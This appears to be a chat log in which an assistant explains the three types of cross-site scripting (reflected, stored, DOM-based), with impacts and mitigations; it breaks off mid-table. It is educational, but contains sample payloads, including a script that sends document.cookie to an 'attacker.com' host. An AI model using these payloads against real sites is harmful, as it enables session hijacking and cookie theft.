 

# Introduction to Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a common web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These attacks occur when an application includes untrusted data without proper validation or escaping.

## Key Concepts

1. **How XSS Works**:
   - Attacker injects malicious JavaScript code into a vulnerable website
   - Victim's browser executes the code in the context of the trusted site
   - Attacker can steal cookies, session tokens, or perform actions on behalf of the user

2. **Types of XSS**:
   - **Stored/Persistent XSS**: Malicious script is permanently stored on the target server
   - **Reflected XSS**: Malicious script is reflected off a web server in response
   - **DOM-based XSS**: Vulnerability exists in client-side code rather than server-side code

3. **Common Attack Vectors**:
   ```html
   <script>alert('XSS')</script>
   ```
   ```html
   <img src="x" onerror="alert('XSS')">
   ```
   ```javascript
   javascript:alert('XSS')
   ```

## Prevention Techniques

- Input validation and output encoding
- Implementing Content Security Policy (CSP)
- Using secure frameworks that auto-escape content
- Setting HttpOnly flag on cookies

Understanding XSS is fundamental for both developers (to prevent vulnerabilities) and security professionals (to test for them).

Further Explain the types of XSS extensively

 # **Introduction to Cross-Site Scripting (XSS) - Types Explained Extensively**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the victim's browser, potentially stealing sensitive data, hijacking sessions, or defacing websites.

XSS attacks are categorized into three main types:

1. **Reflected XSS**  
2. **Stored XSS**  
3. **DOM-based XSS**  

Each type has distinct characteristics and exploitation methods.

---

## **1. Reflected XSS (Non-Persistent)**
Reflected XSS occurs when malicious input from a user is immediately returned by the web application in an unsafe manner, typically in an error message, search result, or URL parameter.

### **How It Works:**
- The attacker crafts a malicious URL containing JavaScript.
- The victim clicks the link (e.g., via phishing).
- The server reflects the script back in the response.
- The victim's browser executes the script.

### **Example:**
```http
https://example.com/search?query=<script>alert('XSS')</script>
```
If the website displays `query` without sanitization, the script runs.

### **Impact:**
- Session hijacking via `document.cookie`.
- Redirecting users to malicious sites (`window.location`).
- Phishing attacks by modifying page content.

### **Mitigation:**
- Input validation & output encoding.
- Using Content Security Policy (CSP).
- Escaping user-supplied data before rendering.

---

## **2. Stored XSS (Persistent)**
Stored XSS occurs when malicious scripts are permanently stored on a target server (e.g., in a database, comment section, or forum post) and later executed when other users access the infected page.

### **How It Works:**
- Attacker submits malicious input stored on the server.
- Victim requests a page containing this stored data.
- Server serves the malicious script to the victim’s browser.
- Script executes in their context.

### **Example:**
A blog comment with:
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
When another user loads the page, their cookies are sent to the attacker.

### **Impact:**
- Long-term compromise of user accounts.
- Spread of malware

Continue from Stored XSS(persistent) Impact point

 Here's the continuation of the **Stored XSS (Persistent)** section, followed by **DOM-based XSS** and a conclusion:

---

## **2. Stored XSS (Persistent) - Continued**

### **Impact (Continued):**
- **Mass infection of users** (e.g., in social media posts or forums).  
- **Defacement of websites** by injecting permanent malicious content.  
- **Keylogging** by capturing user inputs (`onkeypress` events).  
- **Exploiting trust** (users trust the legitimate site, making attacks harder to detect).  

### **Mitigation:**  
- Strict input validation (whitelist allowed characters).  
- Output encoding before rendering user-generated content.  
- Regular security audits for stored data.  
- Use HTTP-only and Secure flags for cookies to limit theft.  

---

## **3. DOM-based XSS**  
DOM-based XSS occurs when JavaScript modifies the DOM unsafely using attacker-controlled input (e.g., URL fragments or `document.location`). Unlike Reflected/Stored XSS, the server isn’t directly involved—the vulnerability is client-side.

### **How It Works:**  
1. Attacker crafts a malicious URL with a script in the fragment (`#`).  
2. Victim visits the URL.  
3. Client-side JavaScript processes the input and writes it to the DOM unsafely.  
4. Malicious script executes in the victim’s browser.  

### **Example:**  
```http
https://example.com/profile#<img src=x onerror=alert('XSS')>
```
If the page uses:  
```javascript
document.write(location.hash.substring(1)); // Unsafe DOM insertion
```
The payload executes.

### **Impact:**  
- Same as Reflected XSS (session hijacking, phishing, etc.).  
- Harder to detect with server-side scanners since it’s client-side.  

### **Mitigation:**  
- Avoid unsafe DOM methods like `innerHTML`, `document.write()`.  
- Use `.textContent` or safe DOM APIs instead.  
- Sanitize inputs with libraries like DOMPurify.  

---

## **Conclusion**  

| Type          | Storage Location         | Execution Trigger          | Persistence  |
|--------------|--------------------------|----------------------------|-------------|
| Reflected    | URL/HTTP Request         | Victim clicks malicious
Conitnue from Conclusion point and append dont write ever